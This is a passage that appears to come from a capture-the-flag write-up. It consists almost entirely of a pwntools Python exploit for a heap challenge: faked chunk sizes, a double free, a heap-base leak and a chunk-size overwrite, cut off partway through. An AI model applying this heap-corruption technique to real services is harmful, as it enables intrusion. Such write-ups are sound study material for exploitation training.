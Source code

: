 

Full exploit code:
```Python
#!/usr/bin/python

from pwn import *
from time import sleep

def allocate(size,payload):
	r.sendlineafter("> ",'1')
	r.sendlineafter("> ","{:d}".format(size))
	r.sendafter("> ",payload)

def view(idx):
	r.sendlineafter("> ",'2')
	r.sendlineafter("> ","{:d}".format(idx))
	return r.recvline(False)

def free(idx):
	r.sendlineafter("> ",'3')
	r.sendlineafter("> ","{:d}".format(idx))

def exploit():
	log.info("faking 0x20 size")
	payload = 'a'*8
	payload += p64(0)*2
	payload += p64(0x31)
	allocate(0x28,payload) # 0

	allocate(0x28,'b'*8) # 1
	allocate(0x28,'c'*8) # 2
	
	log.info("faking 0x90 prev size")
	payload = 'd'*8
	payload += p64(0)*3
	payload += p64(0x90)
	allocate(0x28,payload) # 3

	allocate(0x48,'f'*8) # 4
	allocate(0x48,'g'*8) # 5
	allocate(0x48,'h'*8) # 6 -> border

	log.info("triggering double free")
	free(2)
	free(3)
	free(2)

	heap_base = u64(view(2).ljust(8,'\x00')) - 0x90
	log.info("heap base: {}".format(hex(heap_base)))
	try:
		assert ((heap_base >> (5*8)) & 0xff) == 0x56
	except AssertionError:
		log.warning("heap address's 3rd byte is not 0x56, exploit will fail")
		r.close()
		sys.exit(-1)
	
	log.info("placing {} as target".format(hex(heap_base+0x30)))
	allocate(0x28,p64(heap_base+0x30-0x10)) # 7 -> 2
	allocate(0x28,'k'*8) # 8 -> 3
	allocate(0x28,'l'*8) # 9 -> 2

	log.info("overwriting chunk's size (0x20 -> 0x80)")
	payload = p64(0)
	payload += p64(0x91)
```
